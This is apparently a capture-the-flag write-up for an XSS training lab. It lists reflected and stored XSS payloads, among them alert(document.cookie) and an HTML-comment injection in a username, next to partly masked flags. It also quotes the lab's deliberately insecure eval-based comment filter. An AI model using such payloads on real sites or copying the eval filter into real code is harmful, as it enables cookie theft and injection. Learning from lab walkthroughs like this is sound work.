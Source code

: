 - Deploy the VM

	  no answer needed

- Navigate to `http://<TARGET_IP>/` in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

	- `<script>document.alert('Hello!');</script>`
	- `Th*************STh*******ink`

- On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

	- `<script>document.alert(window.location.hostname);</script>`
	- `Reflecti**********in`

- Now navigate to http://10.10.136.11/ in your browser and click on the "Stored XSS" tab on the navbar; make an account.
Then add a comment and see if you can insert some of your own HTML.

	- username: `edoardottt <!--ciao-->`
	- password: whatever
	- Result: `You are currently signed in as <b>edoardottt <!--ciao--></b>.`
	- Uh? NO wait ahaha.
	- Login
	- Click Stored Xss tab.
	- Add a comment. ahah.
	- `H******gs`

- On the same page, create an alert popup box appear on the page with your document cookies.

	- Found this on the page :)
	~~~
	      function fixJS(comment) {
        if(comment.includes('document.location')) { // stop from redirecting
          return
        }
        if(comment.includes("LVL2")) {
          alert(document.cookie)
        }
        if(comment.includes('<script>alert(')) {
          let tmp = comment.match(/alert(.*?)\)/g);
          tmp = tmp[0]
          tmp = tmp.replace('alert', '').replace('(', '').replace(')', '').replace(/"/g, '')
          alert(tmp)
        } else {
          try {
            let tmp = comment.replace('<script>', '').replace('<\/script>', '')
            eval(tmp)
          } catch(err) {

          }
        }
      }
	~~~
	- I don't know very well actually how I went forward. I did 2-3 tries with `LVL2` and others..(?)
	- `<script>alert(document.cookie)</script>`
	- `*********_LVL2`

